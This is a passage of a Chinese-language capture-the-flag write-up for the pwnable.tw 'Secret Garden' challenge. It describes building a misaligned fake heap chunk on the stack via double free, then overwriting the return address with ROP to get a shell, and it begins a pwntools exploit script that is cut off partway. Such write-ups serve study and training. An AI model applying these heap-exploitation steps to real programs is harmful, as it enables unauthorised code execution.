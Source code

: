 根据offset1，查看下面read函数中ret时的栈在此时的布局，在上方适当位置找0x7f利用字节偏移建立chunk。

![5cd842b7ebc2c](https://i.loli.net/2019/05/12/5cd842b7ebc2c.png)

`0x7ffe6c05c1b8`即返回地址，查看上方布局。

![5cd8435ee833f](https://i.loli.net/2019/05/13/5cd8435ee833f.png)

可以看到`0x7ffe6c05c178`处`0x00007ffe6c05c2f0`的0x7f后面的高位字节都为`\x00`，可以用来错位。

错位之后：

![5cd843d335173](https://s2.ax1x.com/2019/05/14/EocZwT.png)

得到fakechunk的addr为`0x7ffe6c05c17d`，输入的数据从`0x7ffe6c05c18d`开始储存，现在计算输入地址与目标返回地址的偏移。

![5cd8443561147](https://i.loli.net/2019/05/13/5cd8443561147.png)

这样就已经得到所有需要条件。只需double free，在fakechunk上建立0x60大小的chunk，再填充padding = 0x2b个字节，再使用ROP覆盖返回地址即可。

![5cd844dbb4f04](https://i.loli.net/2019/05/13/5cd844dbb4f04.png)

getshell:

![5cd845e93a37a](https://i.loli.net/2019/05/13/5cd845e93a37a.png)

完整exp如下：

```python
#!/usr/bin/env python
# -*- coding=utf8 -*-
"""
# Author: le3d1ng
# Created Time : 2019年05月10日 星期五 21时36分37秒
# File Name: exp.py
# Description:
"""
from pwn import *

io = process('./secretgarden')# , env = {'LD_PRELOAD':'./libc_64.so.6'})
codebase = io.libs()['/home/leeding/pwnable.tw/secret_garden/secretgarden']
#io = remote('chall.pwnable.tw', 10203)
#libc = ELF('./libc_64.so.6')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
#context.log_level = 'debug'
context.terminal = ['terminator', '-x' , 'sh' , '-c']


def debug():
    gdb.attach(io)
    io.interactive()

def raisef(length,name,color):
    io.sendlineafter(': ','1')
    io.sendlineafter(' :',str(length))
    io.sendlineafter(' :',name)
    io.sendlineafter(' :',color)

def visit():
    io.sendlineafter(": ",'2')

def removeg(idx):
    io.sendlineafter(': ','3')
    io.sendlineafter(':',str(idx))

def cleang():
```